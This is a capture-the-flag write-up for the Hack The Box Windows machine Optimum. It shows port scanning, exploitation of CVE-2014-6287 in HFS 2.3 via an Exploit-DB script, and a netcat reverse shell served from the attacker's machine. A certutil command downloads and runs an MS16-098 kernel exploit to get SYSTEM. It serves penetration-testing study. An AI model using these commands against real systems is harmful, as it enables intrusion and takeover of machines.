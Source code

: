 # Optimum 

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Optimum)  [2](https://app.hackthebox.com/machines/Optimum)

**Machine ip:** 10.10.10.8

![Optimum](https://github.com/h4md153v63n/CTFs/assets/5091265/f0fe7004-231f-495f-b3b2-8af6d4e6d81a)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.8 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.8 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6bd17850-1383-4bb9-9363-f840a535bbc5)


## Enumeration
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b8a57ae-f7cc-4fee-a4bb-d9d8ae1f2ddb)


## Exploitation & Gaining Access

### CVE-2014-6287 [1](https://www.exploit-db.com/exploits/39161) [2](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit#id-4a01)

```
searchsploit hfs 2.3

searchsploit -m 39161
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/160c6e02-5cc4-4c84-aa44-b51481749738)

Change ip addres and port number:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fbbb8068-00c8-4bda-8ae5-9b062ae8d92a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a62cd8b5-3931-4863-9e43-c9bd8ca44602)

```
# On the kali attack vm:
cp /usr/share/windows-binaries/nc.exe .

# On the kali attack vm - different terminal:
sudo python3 -m http.server 80

# On the kali attack vm - different terminal you will get the revershell:
nc -nlvp 4444

# On the kali attack vm - different terminal:
python3 39161.py 10.10.10.8 80

python3 39161.py 10.10.10.8 80

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/297d6042-a32c-4afc-87ac-a4502acc2fc2)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0b3ad525-c717-4f8c-a61c-6bf6381ab8f2)


#### Alternative Shell: Invoke-PowerShellTcpOneLine.ps1

**Alternatively**, try powershell shell as **Invoke-PowerShellTcpOneLine.ps1** [1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) [2](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#shell)


## Privilege Escalation

### Method 1: MS16-098 / Kernel [1](https://www.exploit-db.com/exploits/41020) [2](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) [3](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit#id-4f80)

**Alternative** links [1](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) [2](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe)

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-08-mssb.xls --systeminfo systeminfo.txt

# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/32eb7f0c-5bb7-41b6-8d33-dfb5f11445a1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a43d3006-c5f2-4141-9446-154e5c8169ea)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c48e9398-e5c2-4853-9bd8-1b9d0596b083)

```
# On the kali attack vm:
searchsploit 41020

searchsploit -m 41020

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

sudo python3 -m http.server

# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24:8000/41020.exe" 41020.exe

41020.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d51b7047-a7a0-4610-90a0-f28a43dbaa68)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5cbb257e-323c-4c60-9ba7-7cd637287e51)

Get the shell as **nt authority\system**, and read the root flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4616bddf-9e5c-47fc-ad79-1f42c84449c8)


## Method 2: MS16-032
+ Review the alternative solution [1](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#ms16-032)


# References & Alternatives
+ https://vvmlist.github.io/#Optimum
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit
  + https://medium.com/@toneemarqus/optimum-htb-manual-walkthrough-2023-tonee-e2a53fb59b1d
+ https://0xdf.gitlab.io/2021/03/17/htb-optimum.html


## CVE Scripting
+ **CVE-2014-6287:**
  + https://www.exploit-db.com/exploits/39161
  + https://nvd.nist.gov/vuln/detail/CVE-2014-6287
+ **MS16-098 / Kernel:**
  + https://www.exploit-db.com/exploits/41020
    + https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
  + https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098
    + https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe
+ **MS16-032:** 
  + https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1


## Tools
+ /usr/share/windows-resources/binaries/
+ **Invoke-PowerShellTcpOneLine.ps1:** https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1
+ **Windows Exploit Suggester:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
+ **winPEAS:** https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
+ **Watson:** https://github.com/rasta-mouse/Watson
  + **Sherlock:** https://github.com/rasta-mouse/Sherlock
  + https://0xdf.gitlab.io/2018/10/27/htb-bounty.html#enumeration


## Technical Knowledge
+ x


## Problems Solution
+ **SyntaxError: (unicode error) 'unicodeescape' codec can't decode bytes in position 2-3: truncated \UXXXXXXXX escape:**
  + https://youtu.be/rNmF991BSTE?t=40
  + https://www.geeksforgeeks.org/how-to-fix-syntaxerror-unicode-error-unicodeescape-codec-cant-decode-bytes/
  + https://community.alteryx.com/t5/Alteryx-Designer-Desktop-Discussions/Error-unicodeescape-codec-can-t-decode-bytes/td-p/427540
+ **SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?:**
  + https://www.w3docs.com/snippets/python/what-does-syntaxerror-missing-parentheses-in-call-to-print-mean-in-python.html
  + https://stackoverflow.com/questions/25445439/what-does-syntaxerror-missing-parentheses-in-call-to-print-mean-in-python
+ **ModuleNotFoundError: No module named 'urllib2':**
  + https://www.easytweaks.com/module-not-found-urllib2/
  + https://youtu.be/jfD_9DoWGlI?t=63
  + https://blog.finxter.com/fix-import-error-no-module-named-urllib2-python/
+ **ERROR: Could not find a version that satisfies the requirement urllib (from versions: none):**
  + https://github.com/ThomasTJdev/python_gdork_sqli/issues/1
+ **xlrd.biffh.XLRDError: Excel xlsx file; not supported:**
  + https://stackoverflow.com/questions/65254535/xlrd-biffh-xlrderror-excel-xlsx-file-not-supported


## For More
- **How-to: Detecting 64 bit vs 32 bit:** https://ss64.com/nt/syntax-64bit.html

